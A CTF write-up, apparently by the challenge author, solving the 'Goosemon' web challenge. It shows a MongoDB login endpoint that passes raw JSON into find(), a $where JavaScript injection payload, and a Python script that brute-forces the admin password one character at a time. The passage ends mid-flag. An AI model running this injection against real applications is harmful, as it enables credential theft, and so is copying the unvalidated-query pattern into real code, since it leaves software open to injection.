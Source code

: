 ```yaml
---
layout: post
current: post
cover:  assets/squ1rrel/kyleburgess2025/goosemon/cover.webp
navigation: True
title: "Goosemon"
date: 2024-05-06 
tags: [squ1rrel, web]
class: post-template
subclass: 'post'
author: kyleburgess2025
---
```


I'd rather die than use a password manager. In other news, can anyone help me remember the login info for my account? *The flag for this challenge is the account password.*

This was my first challenge that I ever wrote. I've seen countless SQL injection challenges, but as a corporate shill who is interning at MongoDB this summer, I wanted to try out NoSQL injection. This challenge is inspired by [this writeup](https://kevin-denotariis.medium.com/writeup-wild-goose-hunt-cyber-apocalypse-2021-ctf-hackthebox-38dde9c50178) by Kevin De Notariis about a Cyber Apocalypse 2021 challenge with a similar premise. This challenge ended up getting 54 solves, the 2nd most solves in a web category.

This writeup will include the intended solution; I saw a bunch of other solutions in writeups that use a similar premise, but different queries. I'll link those as I find them.

# The Problem

We are given a simple webpage for Goosemon, the totally-copyright-friendly monster collecting game themed on geese. The only option is to sign in. When we get to the sign in page, we can see that we need a username and a password. The project description let us know that the password is the flag. That's pretty much all you can get from the website on first glance.

![image of login website](/assets/squ1rrel/kyleburgess2025/goosemon/signin.webp)

Next, let's take a look at the source code. We can see that the flag is loaded into the database in the startup script and is associated with the `admin` username. 

```js
const { MongoClient } = require('mongodb');

// add the flag to the database
const url = process.env.ME_CONFIG_MONGODB_URL;
const client = new MongoClient(url);
const dbName = 'goosemon';
const flag = process.env.FLAG;
const userCollection = 'users';
const flagDoc = { username: "admin", password: flag };

(async () => {
    await client.connect();
    const db = client.db(dbName);
    const collection = db.collection(userCollection);
    await collection.insertOne(flagDoc);
    console.log('Flag added to database');
    await client.close();
}
)();
```

The .html file shows nothing interesting, just that we are calling the `/login` endpoint when we log in. However, the `/login` endpoint seems to be interesting, for a variety of reasons.

```js
const filter = (input) => {
    if (typeof input === 'string') {
        return input.toLowerCase().includes('regex');
    }
  
    if (typeof input === 'object') {
        return JSON.stringify(input).toLowerCase().includes('regex');
    }
}

app.post("/login", jsonParser, async (req, res) => {
  try {
    if (!req.body) {
      res.status(400).send("Request body is missing");
      return;
    }
    if (filter(req.body)) {
        res.status(400).send("Nuh uh uh, no regex allowed!");
        return;
    }

    const db = client.db(dbName);
    const collection = db.collection("users");

    const data = collection.find(req.body);
    const result = await data.toArray();
    if (result.length > 0) {
      res.status(200).send("Login successful!");
    } else {
      res.status(400).send("Login failed!");
    }
  } catch (error) {
    console.log(error);
    res.status(500).send("Internal server error");
  }
});
```

The first thing that catches my eye is the `filter` function. We cannot use the word "regex" anywhere in our query, ruling out the NoSQL injection mentioned in De Notariis's writeup. Also, there is virtually no query verification being done here. Our input is being used as the query itself - it doesn't make sure it consists of `username` and `password` fields. This is also important for my solve.

One last thing to note...

```yml
mongo:
image: mongo:5.0.26
restart: always
environment:
    MONGO_INITDB_ROOT_USERNAME: root
    MONGO_INITDB_ROOT_PASSWORD: password
```

This application does not use the most recent version of MongoDB; instead, it uses version 5. This is not completely necessary for solving the challenge, but it does make it easier for reasons we will see later.

# Putting It Together
Ok, let's get query building. My approach is to start with what we know the password starts with: `squ1rrel{`. Then, we go one by one through all of the allowable characters, concatenating them with our current password. We will see if the new password (with the added character) is a substring of the full password; if so, repeat to find the next character until we hit the final `}`. If not, we move on to the next character. 

There's a few methods we could use for finding if a string is a substring of an entry in the database. The method I used was the `$where` function, which allows you to use JavaScript in your queries. Something to note about this `$where` function: MongoDB version 6.0 updated the internal JavaScript engine to disallow a bunch of string and array methods, including `.contains`, `.substr`, `.includes`, and others. See the full list [here](https://www.mongodb.com/docs/manual/release-notes/6.0-compatibility/#std-label-6.0-js-engine-change). I decided to use `.contains` and created the following query:

```py
payload = {
    "username": "admin",
    "$where" : f"this.password.includes(\"{curr_pw}\")"
    }
```

My solve script, therefore, looked like this:

```py
import requests

url = "http://34.132.166.199:5249/login"

full_pw = "squ1rrel{"

def check_chars(password):
    for char in range(0x21, 0x7F): 
        curr_pw = password + chr(char)

        payload = {
            "username": "admin",
            "$where": f"this.password.includes(\"{curr_pw}\")"
            }

        response = requests.post(url, json=payload)

        if 'Login successful' in response.text:
            print(curr_pw)
            return curr_pw

while full_pw[-1] != "}":
    full_pw = check_chars(full_pw)

print(full_pw)
```

This runs great, until...

![image of Python logs showing the script failing](/assets/squ1rrel/kyleburgess2025/goosemon/logs.webp)

Oh no, "regex" is in the flag! Thankfully, since my method looks for a substring, I can restart my solve script with `egex` as the original `full_pw`. A few potential solves, including those that use the `$lt` and `$gt` operator, stopped working completely at this point. I added `regex` to the flag mainly to mess with people and make some queries not work. This was cruel. Sorry 🤭

Flag: `squ1rrel{7h0ugh7_y0u_c0u1d_rege`